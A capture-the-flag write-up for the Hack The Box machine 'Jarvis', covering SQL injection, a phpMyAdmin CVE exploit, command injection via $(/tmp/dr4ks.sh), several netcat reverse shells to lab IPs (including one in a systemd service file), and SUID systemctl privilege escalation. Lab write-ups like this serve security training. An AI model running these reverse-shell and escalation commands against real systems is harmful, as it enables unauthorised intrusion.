# [Jarvis](https://app.hackthebox.com/machines/Jarvis)

Let's identify open ports

```bash
nmap -p- --min-rate 10000 10.10.10.143 
```




Let's do nmap greater search for open ports.

```bash
nmap -sC -sV -p22,80,64999 10.10.10.143 -Pn
```




Directory brute-forcing.
```bash
gobuster dir -u http://10.10.10.143 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php -t 40  
```





Here, I find 'room.php' and 'cod' parameter of this is vulnerable to SQLI,




I did manul SQLI and found that it is vulnerable to SQLI that I did UNION-based SQLI.




I searched on the internet that how can I get password of phpliteadmin, and found that from 'mysql.user' table and grab password.




I grab MD5 hash of password of 'DBadmin' user and crack it by online [Crackstation](https://crackstation.net/)





DBadmin: 2d2b7a5e4e637b8fba1d17f40318f277d29964d0: imissyou


After entering above credentials, I am on the dashboard of phpliteadmin.




I see that version of phpmyadmin (4.8.0)




Let's search an exploit for this version.



I found CVE-2018-12613 exploit for this version.

I download exploit to my machine and run it.



I run the script against to my target and IT WORKED.




Let's add reverse shell into here

```bash
nc -e /bin/sh 10.10.14.8 443
```







I spawned interactive shell.

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo;fg

export TERM=xterm
export SHELL=bash
```


I check the privileges of 'www-data' user.




Then , I enumerate script itself, I see that there is 'Command Injection' possible as because.

```python
os.system('ping ' + command)
```


Now, I add my reverse shell bash script into 'tmp' folder.
```bash
echo -e '#!/bin/bash\n\nnc -e /bin/bash 10.10.16.4 7654' > /tmp/dr4ks.sh
```

And give execution privilege to this file.

```bash
chmod +x /tmp/dr4ks.sh
```



Now, I run this script with 'sudo' privilege.

```bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
```

Then, I enter my script execution as command injection.
`$(/tmp/dr4ks.sh)`




Now, I am pepper user.




user.txt




Let's search SUID files for privilege escalation.

```bash
find / -type f -perm /4000 2>/dev/null

```




I found these and choose '/bin/systemctl' for privilege escalation.  [GTFOBINS](https://gtfobins.github.io/gtfobins/systemctl/)


```bash
# FIRST
cat >dr4ks.service<<EOF
[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.16.4 2003'
KillMode=process
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target
EOF

# SECOND

systemctl link /home/pepper/dr4ks.service

# THIRD
systemctl start dr4ks
```




root.txt



